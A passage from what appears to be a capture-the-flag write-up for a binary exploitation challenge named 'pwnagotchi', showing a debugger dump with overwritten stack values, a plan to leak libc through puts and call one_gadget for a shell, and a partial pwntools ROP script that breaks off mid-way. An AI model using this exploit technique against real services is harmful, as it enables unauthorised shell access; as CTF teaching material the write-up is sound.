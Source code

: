 ```
   f 5 4141414141414141
   f 6 4141414141414141
   f 7 4141414141414141
   f 8 4141414141414141
   f 9 4141414141414141
   f 10 4141414141414141
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Awesome, looks like we can overwrite RIP. Now we just need to call [one_gadget](https://github.com/david942j/one_gadget) to get a shell. However, there are a couple of issues we've got to deal with first. Firstly we don't even know what version of libc is running on the server, and without that we wouldn't be able to calculate address of `one_gadget`. Fortunately, there's a simple solution to this: leak a few libc addresses and try to guess the version of libc based on their relative offsets from each other. The [libc database search](https://libc.blukat.me/) tool helps us achieve this easily. So let's write a script to do just that.

```
#! /usr/bin/python2

from pwn import *

HOST = 'pwn.hsctf.com'
PORT = 5005
BINARY = './pwnagotchi'

elf = context.binary = ELF(BINARY)

# RIP Padding

p = process(BINARY)
p.sendline(cyclic(64, n = 8))
p.wait()

core = p.corefile

p.close()
os.remove(core.file.name)

PAYLOAD_PADDING = cyclic_find(core.read(core.rsp, 8), n = 8)

log.success('Found padding length: {}'.format(PAYLOAD_PADDING))

# Start connection

r = remote(HOST, PORT)

# Stage 1: Build ROP Chain
# - Leak puts@libc
# - Call eat()
# - Call zzz()
# - Call main()

rop = ROP(elf)
rop.puts(elf.got.puts)

log.success('Built ROP Chain')
log.success(rop.dump())

# Stage 2: Leak puts@libc

r.recvuntil('Enter your pwnagotchi\'s name: \n')

```